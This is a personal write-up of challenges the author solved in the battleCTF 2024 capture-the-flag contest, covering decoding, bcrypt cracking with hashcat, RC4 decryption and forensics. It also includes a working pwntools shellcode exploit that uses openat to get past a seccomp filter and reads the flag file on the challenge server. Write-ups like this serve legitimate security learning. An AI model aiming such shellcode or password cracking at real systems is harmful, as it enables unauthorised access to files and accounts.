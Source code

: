 ```yaml
---
title: BattleCTF 2024
date: 2024-12-27 04:45:00 +0800
categories: [CTF, battleCTF]
tags: [writeups, jeopardy]
math: true
mermaid: true
media_subpath: /assets/posts/2024-12-27-battleCTF
image:
  path: preview.png
---
```


# BattleCTF 2024
Hi there, i participated in the battleCTF2024 under the name `sigsegv`. 

Here are the challenges i solved:
![Challenges Solved](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/images/challenges_solved.png)   

## Misc
### Rules
Upon joining the discord server and nagivating to the #announcements channel we obtain the flag.
![Rule Challenge flag](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Rules/images/rules_flag.png)  
Flag: `battleCTF{HereWeGo}`

### Invite Code
This challenge was a bit tricky because many i overlooked the message in the #notification channel before the CTF began. Luckily, after sometime i discovered it.   
![Invite Code First Image](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_discord.png) 

First thing i did was to pick up the encoded data and place it into `cyberchef`.    
![Cyber Chef Hex Data Decode](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_cyberchef_from_hex.png)   
We can see that the data provided was a hex dump and `cyberchef` decoded it successfully resulting in a contatenation of base64 string and a link. The base64 string just leads us to the Rick Roll video in YouTube and so that isn't vert relevant.

The other link `https://bugpwn.com/invite.ini` leads us to a page where some data is hosted on the website.
![Invite .ini file](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_ini_file.png)

This looks like some base64 data. We can use `cyberchef` to decode this.
![Invite .ini b64 data decoded](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_ini_b64_data_decoded.png)    

From `cyberchef` i downloaded the raw binary file and run the file command on it.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ file download.gz 
download.gz: gzip compressed data, last modified: Fri Oct  4 11:25:31 2024, max compression, original size modulo 2^32 1081
```

I then decided to attempt unzipping the file with gunzip. After unzipping i read the contents of the file.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ gunzip download.gz 
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ cat download
b'\xac\xed\x00\x05t(\x83<?xml version="1.0" encoding="utf-8" standalone="no" ?>
<!DOCTYPE users SYSTEM >
<users max="81">
	<user >
		<loginname>battlectf</loginname>
		<password>$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq</password>
		<4cr_encrypt>05 5F 26 74 9B 8D D7 09 49 EB 61 94 5D 07 7D 13 AA E8 75 CD 6A 1E 79 12 DA 1E 8A E7 2F 5F DB 87 E4 0D D2 13 E4 82 EE 10 AC A7 3A BF 54 B2 A4 A5 36 EA 2C 16 00 89 AE B8 22 0B F5 18 CA 03 32 C8 C6 6B 58 80 EC 70 77 6E 16 5C 56 82 6F AD 0B C5 97 69 E9 B8 4E 54 90 95 BB 4D ED 87 99 98 BF EC D4 E2 8A 0D C5 76 03 89 A6 11 AB 73 67 A0 75 AE 3C 84 B6 5D 21 03 71 B8 D9 A0 3B 62 C0 5B 12 DA 5C 91 87 19 63 02 A4 3B 04 9F E0 AD 75 3E 35 C3 FB 1B 5E CB F0 5A A7 8B DF 00 8B DC 88 24 EF F4 EE CE 5C 3B F3 20 10 C2 52 DF 57 D2 59 5E 3E 46 D0 85 10 89 AC 09 07 EF C5 EE 1D 2F 89 1D 83 51 C6 52 38 13 2A D0 20 66 6D 52 B1 93 1B 21 06 9F E5 00 B7 AB 30 EB 98 7F CB 80 17 36 16 EF 73 BB 59 60 E4 4B F0 8A BD FF 85 A1 37 5D 4E C0 91 92 F2 68 C5 20 68 A0 A7 84 EB</4cr_encrypt>
	</user>
</users>\r\n<!-- battleCTF AFRICA 2024 -->\r\n
``` 
The content of the .gz file is an XML file with some interesting fields. The `4cr_encrypt` field contains some encrypted data. I assumed that the name `4cr_encrypt` was just a wordplay of the actual enctyption scheme `rc4_encrypt`. Now that we are aware if the encyption scheme used we can attempt to decrypt it which would require a password. Luckily, we also have a password field in the XML file which is also hashed.

At this point i saved the hash to a file and attempted to crack the password with John The Ripper. After a while we obtain the password.
```
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF$ hashcat -m 3200 hashes ~/Downloads/rockyou.txt 
...
$2a$12$ecui1lTmMWKRMR4jd44kfOkPx8leaL0tKChnNid4lNAbhr/YhPPxq:nohara
``` 

Using this password and cyberchef i decrypted the data successfully to obtain the flag.
![Invite Code Flag Image](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Invite%20Code/images/invite_code_flag.png) 
Flag: `battleCTF{pwn2live_d7c51d9effacfe021fa0246e031c63e9116d8366875555771349d96c2cf0a60b}`

## Forensics
### Do[ro x2]
This was an interesting and very simple foresics challenge where were provided with a file having a **.ad1** (`roro.ad1`) extension. After a little googling and reading i discovered that it was an **evidence file** and the `AccessData FTK Imager` tool can be used to parse it.

I quickly jumped to my windows virtual machine to download and install`AccessData FTK Imager`. After importing the evidence file `AccessData FTK Imager` asks for password.
![FTK Imager Evidence File Import](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Dororo/images/FTK_imager_windows.png) 

Immediately it hit me that the name of the challenge could be a hint to the password. I then tried the password `Dororo` and viola! i obtained the flag.
![Doror Flag](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Dororo/images/dororo_flag.png) 
Flag: `BattleCTF{You_d0_1t_like_4_pro_forensicator6578888}`

## Pwn
### Universe
For this pwn challenge we were proivded with a ELF binary `universe`. I run `checksec` on the file to get a security overview of the file.
![Checksec Universe](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/checksec_universe.png)  

This is an x64 little endian exucutable with NX and PIE enabled.

Next thing was to run the binary to see it's functionality before diving into any sorts of static or dynamic analysis techniques.
![Running Universe](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/running_universe.png)

After this, i opened it up in `Ghidra` to view the decompilation and better understand how the `universe` executable was working.
As always, i analyse the main function first since it is the entry point to every application.
![Ghidra Universe Main Func Decompilation](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/main_function_decompilation.png) 

We can see from the image on line 20 that the pointer **pcVar1** is dereferenced and and it's content is executed. We also observe on line 10 that **pcVar1** is a pointer to a free **0x1000** bytes of memory space. Inside the for loop on line 18 we see that data is read into **pcVar1** and the loop only breaks when the **0x1000** bytes is full. The content content of the pointer **pcVar1** is then executed.

This seems very straight forward and we can immediately see that we can execute code. There's just one small problem. The function `FUN_00101208()` is called before all this. That function contains code to block certain syscalls using `seccomp`. 
![Seccomp Load](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_load.png) 

![Seccomp Rule Add](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_rule_add.png)    

After discovering this, i used `seccomp-tools` to get a dump of the rules applied.
![Seccomp Tools Dump](https://raw.githubusercontent.com/theMcSam/battleCTF-writeups/main/battleCTF2024/Universe/images/seccomp_tools_dump.png)    

We can see that certain `syscalls` have been blocked and as a result we would have to craft our exploit shellcode with a `syscalls` that have not been listed here. In most CTFs the goal is to obtain the flag so i started searching for alternative `syscalls` i could abuse to read files on the target and get the flag.  After some searching, i decided to go with the `openat()` `syscall` to open and read files.

Using pwntools python library i crafted an exploit.
Find exploit code here:
```python
from pwn import *

context.clear(arch="amd64")

shellcode = shellcraft.linux.openat(-1, "/flag.txt")
shellcode += shellcraft.linux.read('rax', 'rsp', 100)
shellcode += shellcraft.linux.write(1, 'rsp', 100)

assembled_shellcode = asm(shellcode)
padding_size = 4096 - len(assembled_shellcode)
payload = assembled_shellcode + b'\x90' * padding_size

def main():
    io = remote("challenge.bugpwn.com",1004)
    io.sendline(payload)
    io.interactive()

if __name__ == "__main__":
    main()
```

Upon executing this script i obtained the flag.
```shell
mcsam@0x32:~/Desktop/ctf/AfricaBattleCTF/pwn/universe$ python3 read.py 
...
Africa battleCTF 2024
By its very subject, cosmology flirts with metaphysics. Because how can we study an object from which we cannot extract ourselves? Einstein had this audacity and the Universe once again became an object of science. Without losing its philosophical dimension.
What do you think of the universe?
battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}
\xa3p[*] Got EOF while reading in interactive
```

Flag: `battleCTF{Are_W3_4l0ne_!n_7he_univ3rs3?_0e2899c65e58d028b0f553c80e5d413eeefef7af987fd4181e834ee6}`